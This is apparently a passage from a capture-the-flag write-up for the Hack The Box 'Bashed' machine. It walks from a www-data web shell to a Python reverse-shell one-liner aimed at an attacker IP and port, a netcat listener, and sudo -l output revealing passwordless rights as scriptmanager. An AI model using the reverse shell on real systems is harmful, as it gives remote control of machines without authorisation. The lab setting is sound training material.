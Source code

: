 ![image](/images/posts/boom-bashed/2.webp)

We're running in the context of an Apache default user _www-data_. For this machine, we already have a low privileged shell that allows us to run linux commands on the web server, so we don't necessarily need to get our own reverse shell.

However, in a real penetration test, you would place your own shell in the system just in case the creator notices his insecure configuration and takes down the php script. This way you'll have consistent access to the system by a shell that you control.

The [Pentestmonkey](http://pentestmonkey.net/) website has a list of reverse shells. Let's Check if python exists on the target machine.

```bash
which python
```

Since python is installed on the machine! Copy the python command from the list and change it to your attack machine's ip address and listening port.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.172",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

In the attack machine (kali) set up a listener.

```bash
nc -nlvp 1234
```

### We got the low privileged shell

we can find the user flag in `/home/arrexel` directory.

![image](/images/posts/boom-bashed/3.webp)

## Privilege Escalation

Next, I need to figure out what other privileges I have or can easily get. The following command lists the allowed commands for my user.

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The last two lines are particularly interesting because it says that the user I'm running in the context of (www-data) can run as the user scriptmanager without having to provide the user's password. This might come in handy later on.
